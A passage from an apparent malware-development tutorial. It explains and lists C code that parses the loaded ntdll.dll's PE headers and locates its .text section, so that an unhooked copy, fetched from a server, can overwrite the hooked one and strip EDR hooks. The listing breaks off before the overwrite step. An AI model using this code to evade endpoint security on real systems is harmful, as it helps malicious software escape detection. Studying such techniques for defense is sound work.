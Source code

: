 Now that an unhooked version of `ntdll.dll` is in memory, the `ReplaceNtdllTxtSection` function is utilized to replace the text section of the hooked `ntdll.dll` with the newly unhooked one. The only modification required is to use the `pUnhookedNtdll` parameter, which represents the base address of the NTDLL module fetched using the `ReadNtdllFromServer` function detailed above.


```
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {

	PVOID			   pLocalNtdll 	   = (PVOID)FetchLocalNtdllBaseAddress();


	// getting the dos header
	PIMAGE_DOS_HEADER	pLocalDosHdr 	= (PIMAGE_DOS_HEADER)pLocalNtdll;
	if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return FALSE;

	// getting the nt headers
	PIMAGE_NT_HEADERS 	pLocalNtHdrs 	= (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
	if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return FALSE;


	PVOID     pLocalNtdllTxt    = NULL, // local hooked text section base address
	          pRemoteNtdllTxt   = NULL; // the unhooked text section base address
	SIZE_T    sNtdllTxtSize     = NULL; // the size of the text section


	// getting the text section
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);

	for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {

		// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
		if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {

			pLocalNtdllTxt = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
			pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + 1024);
			sNtdllTxtSize = pSectionHeader[i].Misc.VirtualSize;
			break;
		}
	}

//---------------------------------------------------------------------------------------------------------------------------

	// small check to verify that all the required information is retrieved
	if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
		return FALSE;

	// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
	if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt) {
		// if not, then the read text section is also of offset 4096, so we add 3072 (because we added 1024 already)
		(ULONG_PTR)pRemoteNtdllTxt += 3072;
		// checking again
		if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
			return FALSE;
	}


//---------------------------------------------------------------------------------------------------------------------------

```
